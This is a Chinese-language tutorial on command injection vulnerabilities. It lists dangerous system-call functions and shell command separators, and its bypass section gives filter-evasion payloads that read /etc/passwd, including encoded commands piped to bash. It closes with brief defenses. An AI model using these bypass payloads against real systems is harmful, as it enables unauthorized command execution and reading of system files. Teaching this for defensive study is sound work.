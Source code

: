 ##### 命令注入漏洞简介

命令注入，主要指应用在服务器或客户端上，允许拼接系统命令并执行而造成的漏洞。

##### 漏洞成因

1. 对用户的输入过滤不全，导致可执行任意系统命令
2. 应用使用了一些危险的系统调用函数，使得用户的输入传递给这些危险的系统调用函数，从而执行了系统命令

##### 一些常见的变成语言的系统调用函数

1. PHP

   ```php
   system
   exec
   shell_exec
   proc_open
   passthru
   ```

2. Python

   ```python
   system
   popen
   subprocess.call
   spawn
   ```

1. Java

   ```java
   java.lang.Runtime.getRuntime().exec(command)
   ```

##### 常见命令拼接符

```bash
1. && 逻辑与
cmd1 && cmd2 cmd1执行成功后才会执行cmd2

2. | 管道
cmd1 | cmd2 cmd1执行的结果作为cmd2的执行条件传递给cmd2

3. || 或
cmd1 || cmd2 cmd1执行失败后就执行cmd2

4. & 用于分割多条命令，命令会按顺序执行
cmd1 & cmd2

5. ; 用于分割多条命令，命令会按顺序执行
cmd1;cmd2

6. `` 命令结果的输出，即命令替换
`echo hello`

7. $() 用于命令替换，适用于cmd中需要使用多个拼接符
$(cmd)

8. () 合并多条命令，重新开启子shell来执行命令
(cmd1;cmd2)

9. {} linux bash下用于合并多个命令及参数，在当前shell执行
{cmd;arg}
```

##### 常见的绕过技巧

1. IFS分割符(Internal Field Seperator, 内部域分割符)是shell下的特殊环境变量，可以是空格，Tab,换行符或其他自定义符号

   ```bash
   cat$IFS/etc/passwd
   ```

2. URL编码

   ```bash
   cat%20/etc/passwd
   cat+/etc/passwd
   cat%90/etc/passwd
   ```

3. {cmd,arg}

   ```bash
   {cat,etc/passwd}
   ```

4. shell特殊变量

   | 变量 |                  描述                   |
   | :--: | :-------------------------------------: |
   |  $n  | 传递给脚本或函数的参数，n代表第几个参数 |
   |  $*  |       传递给脚本或函数的所有参数        |
   |  $@  |        递给脚本或函数的所有参数         |

   ```bash
   cat$1t /etc/passwd
   cat$*t /etc/passwd
   cat$@t /etc/passwd
   ```

5. 编码绕过

   使用编码的方式将命令进行编码(hex,URL,base64)，然后再换回来

   ```bash
   echo "Y2F0IC9ldGMvcGFzc3dk" | base64 -d|bash
   
   echo "636174202f6574632f706173737764" |xxd -r -p|bash
   ```

6. 自定义变量(将命令拆分到各个变量中，然后在拼接起来)

   ```bash
   a=c;b=at;c="/etc/passwd";$a$b $c
   ```

7. 反斜杠(反斜杠的作用就是转义，因此可用来拆分黑名单字符串)

   ```bash
   c\a\t /et\c/pass\wd
   ```

8. 单双引号

   单双引号内的内容会被当作字符串处理

   ```bash
   c"a"t /et''c/pa's'swd
   ```

##### 如何防御

1. 尽量不要执行外部的应用程序或命令
2. 尽量不要使用系统调用函数
3. 对用户的输入进行双向过滤



---

that's all